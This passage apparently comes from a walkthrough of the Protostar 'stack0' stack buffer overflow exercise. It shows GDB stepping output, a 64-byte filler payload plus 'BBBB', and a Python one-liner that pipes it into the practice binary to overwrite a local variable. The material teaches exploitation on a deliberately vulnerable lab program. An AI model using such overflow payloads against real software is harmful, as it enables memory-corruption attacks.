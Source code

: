 Continuing to step through our program, we can see the 'wanted' functionality and output of the program:

```
(gdb) ni
0x08048415	13	in stack0/stack0.c
(gdb) 
0x08048417	13	in stack0/stack0.c
(gdb) 
14	in stack0/stack0.c
(gdb) 
0x08048420	14	in stack0/stack0.c
(gdb) 
you have changed the 'modified' variable   <--- win condition!
```

In order to check our payload is correct and we have the correct offset, we run the following command outside of GDB to see if everything is correct. Our payload is:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

This can be completed with the following one-liner:

```
$ python -c 'print "A"*64 + "B"*4' | ./stack0
you have changed the 'modified' variable
```

Winner! We successfully changed the target variable, located at esp+0x5c making sure we didn't jump at our condition and flowed into the correct section of the program.
